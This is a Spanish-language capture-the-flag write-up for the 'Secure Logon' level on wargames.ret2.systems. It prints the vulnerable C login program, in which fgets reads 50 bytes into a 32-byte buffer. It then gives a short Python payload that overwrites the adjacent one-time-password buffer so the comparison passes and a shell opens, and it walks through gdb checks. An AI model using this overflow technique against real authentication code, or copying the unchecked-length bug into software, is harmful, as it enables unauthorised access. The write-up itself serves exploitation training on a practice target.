

# Secure Logon - Memory corruption challenge no 1

## Introducción

El challenge "Secure Logon" del nivel 1 en wargames.ret2.systems consiste en bypassar un mecanismo de autenticación basado en una contraseña de un solo uso (OTP). El programa genera una OTP aleatoria y compara la entrada del usuario con esta OTP. Si coinciden, se autentica al usuario y se ejecuta una shell (`/bin/sh`). Aunque parece seguro, una vulnerabilidad en el manejo de la entrada permite sobrescribir la OTP, logrando la autenticación sin conocerla.

En este documento, analizaremos el código, identificaremos la vulnerabilidad, explicaremos cómo calcular el offset para el desbordamiento, detallaremos la estrategia de explotación y desglosaremos el exploit en Python.

---

## Análisis del Código Fuente

El código fuente en C es el siguiente:

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <inttypes.h>
#include <unistd.h>
#include "wargames.h"

void generate_otp(char * buffer, int len) 
{
    FILE *fp = fopen("/dev/urandom", "r");
    int bytes_read = fread(buffer, 1, len, fp);
    fclose(fp);
    if (bytes_read != len)
        exit(1);
    for (int i = 0; i < len; i++)
        buffer[i] = 0x41 + ((unsigned char)buffer[i] % 26);
    buffer[len-1] = 0;
}

void main()
{
    init_wargame();
    printf("------------------------------------------------------------\n");
    printf("--[ Stack Smashing Level #1 - Secure Logon                  \n");
    printf("------------------------------------------------------------\n");
    
    char user_password[32] = {};
    char otp_password[32] = {};
    generate_otp(otp_password, sizeof(otp_password));
    printf("Enter password: ");
    fgets(user_password, 0x32, stdin);
    user_password[strcspn(user_password, "\n")] = 0;
    if (strlen(user_password) == 0) 
    {
        puts("Invalid input...");
        exit(1);
    }
    if (!strcmp(user_password, otp_password))
    {
        puts("Authenticated!");
        system("/bin/sh");
    }
    else 
    {
        puts("Authentication failed...");
    }
}
```

### Puntos Clave del Código

1. **Función `generate_otp`**:
   - Lee 32 bytes aleatorios de `/dev/urandom` en `otp_password`.
   - Convierte cada byte en una letra mayúscula (A-Z) usando: `buffer[i] = 0x41 + ((unsigned char)buffer[i] % 26)`.
   - Coloca un byte nulo (`\0`) en `buffer[31]` para terminar la cadena.

2. **Función `main`**:
   - Declara dos buffers en la pila: `user_password` (32 bytes) y `otp_password` (32 bytes), probablemente contiguos.
   - Genera una OTP en `otp_password`.
   - Usa `fgets(user_password, 0x32, stdin)` para leer hasta 50 bytes.
   - Elimina el salto de línea (`\n`) y verifica que `user_password` no esté vacío.
   - Compara `user_password` con `otp_password` con `strcmp`. Si son iguales, ejecuta `/bin/sh`.

---

## Identificación de la Vulnerabilidad

La vulnerabilidad está en `fgets(user_password, 0x32, stdin)`:
- `user_password` tiene 32 bytes.
- `fgets` permite leer hasta 50 bytes (`0x32` en hexadecimal).
- Esto permite un **desbordamiento de buffer**, ya que se pueden escribir más bytes de los que `user_password` puede contener, sobrescribiendo `otp_password`, que probablemente está justo después en la pila.

---


## Cálculo del Offset para el Desbordamiento

Para explotar el desbordamiento, necesitamos determinar cuántos bytes debemos escribir en `user_password` para empezar a sobrescribir `otp_password`. Esto se calcula analizando la disposición de la pila:

### Disposición de la Pila

En C, las variables locales declaradas en una función se almacenan en la pila. Aunque la pila como estructura de datos crece hacia direcciones de memoria más bajas, la forma en que el compilador organiza las variables dentro del marco de la pila (stack frame) puede variar.

En arquitecturas comunes como x86-64, es frecuente que el compilador coloque las variables en el orden en que se declaran, desde direcciones más bajas hacia más altas.

Con la declaración `char user_password[32]; char otp_password[32];`, `user_password` se ubicaría en una dirección base (p. ej., `0x7fffffffed80`) y `otp_password` se colocaría inmediatamente después, en una dirección más alta (`0x7fffffffed80 + 32 = 0x7fffffffeda0`).

> **Nota importante**: Este comportamiento no está garantizado por el estándar de C y depende del compilador y la arquitectura. Por eso, usar un depurador es el método definitivo para confirmar la disposición.

### Tamaño del Buffer

- `user_password` tiene 32 bytes de capacidad.
- Para sobrescribir el primer byte de `otp_password`, debemos escribir exactamente 32 bytes para llenar por completo `user_password` y luego continuar escribiendo en la memoria adyacente.

### Confirmación del Offset

Podemos verificar el offset usando un depurador como `gdb`. Inspeccionando las direcciones de las variables:

```gdb
p &user_password
p &otp_password
```

Si la dirección de `otp_password` es exactamente 32 bytes mayor que la de `user_password`, hemos confirmado nuestro offset. También podemos usar un patrón de entrada (como `AAA...`) y observar en el depurador cómo se sobrescribe `otp_password`.

### Offset Final

- Para empezar a escribir sobre `otp_password`, el offset es de **32 bytes**.
- Para sobrescribir los primeros `N` bytes de `otp_password`, necesitamos escribir un total de **32 + N bytes**.
- Siendo N el número de bytes que queremos escribir en `otp_password`, en este caso, 2 bytes para escribir `'A\x00'`.

---

## Estrategia de Explotación

El objetivo es hacer que `user_password` y `otp_password` contengan la misma cadena (`"A"`) para que `strcmp` devuelva 0. La estrategia es:
1. Escribir una cadena corta terminada en nulo (`A\x00`) en `user_password` para pasar el chequeo de `strlen`.
2. Usar 30 bytes de relleno para llegar al borde de `user_password`.
3. Sobrescribir el inicio de `otp_password` con la misma cadena (`A\x00`).
4. Terminar con un salto de línea (`\n`) para que `fgets` complete la lectura.

---

## El Exploit en Python

El siguiente script en Python automatiza la explotación:

```python
import interact
import struct

def p64(n):
    return struct.pack('Q', n)

def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
p.readuntil('Enter password: ')

payload = b'A\x00' + b'A'*30 + b'A\x00' + b'\n'
p.sendline(payload)
p.interactive()
```

### Explicación del Payload

El payload `b'A\x00' + b'A'*30 + b'A\x00' + b'\n'` (34 bytes) manipula la memoria:

1. **`b'A\x00'` (Bytes 0-1)**:
   - Escribe `'A'` (0x41) y un byte nulo (`\0`) en el inicio de `user_password`.
   - El byte nulo termina la cadena, haciendo que `user_password` sea `"A"`.
   - `strlen(user_password)` devuelve 1, pasando el chequeo.

2. **`b'A'*30` (Bytes 2-31)**:
   - Relleno de 30 bytes con `'A'` para llenar `user_password` (32 bytes en total).
   - Esto posiciona el siguiente dato en el inicio de `otp_password`.

3. **`b'A\x00'` (Bytes 32-33)**:
   - Sobrescribe el inicio de `otp_password` con `'A'` y un byte nulo.
   - Hace que `otp_password` sea `"A"`.

4. **`b'\n'` (Byte 34)**:
   - Un salto de línea asegura que `fgets` termine de leer.

Total: 34 bytes, dentro del límite de 50 bytes de `fgets`.

---

## Desglose del Payload en Memoria

| Índice (Byte #) | Búfer          | Valor (Byte) | Valor (Hex) | Propósito / Interpretación            |
|-----------------|----------------|--------------|-------------|---------------------------------------|
| **0**           | `user_password`| `'A'`        | `0x41`      | Inicio de `user_password`.            |
| **1**           | `user_password`| `'\x00'`     | `0x00`      | Termina `user_password` como `"A"`.   |
| **2 a 31**      | `user_password`| `'A'` (x30)  | `0x41`      | Relleno para llegar a `otp_password`. |
| **32**          | `otp_password` | `'A'`        | `0x41`      | Inicio de `otp_password`.             |
| **33**          | `otp_password` | `'\x00'`     | `0x00`      | Termina `otp_password` como `"A"`.    |
| **34**          | `otp_password` | `'\n'`       | `0x0A`      | Fin de entrada para `fgets`.          |




### Resultado en Memoria
- `user_password`: `"A"` (terminado por `\0` en el byte 1).
- `otp_password`: `"A"` (sobrescrito por `A\x00` en los bytes 32-33).
- `strcmp(user_password, otp_password)` compara `"A"` con `"A"`, autentica y ejecuta `/bin/sh`.

---

## Depuración con GDB

Para verificar el offset y la disposición de la pila:
1. Ejecuta:
   ```bash
   wargames-gdb -q 03_level_1
   ```
2. Coloca un breakpoint después de `fgets`:
   ```gdb
   break *main+<offset_donde_fgets_termina>
   ```
3. Ejecuta con un patrón de entrada (por ejemplo, `AAA...A` de 50 bytes).
4. Inspecciona los buffers:
   ```gdb
   x/64bx &user_password
   ```
   - Confirma que `otp_password` comienza justo después de `user_password[31]`.
5. Verifica que el payload sobrescribe `otp_password` correctamente.

---

## Completando el Challenge

En la shell resultante, ejecuta:
```bash
cat flag
```
Esto mostrará la bandera, como `flag{0nly_n00bs_n33d_th3_real_p4ssw0rd_anyw4y}`.

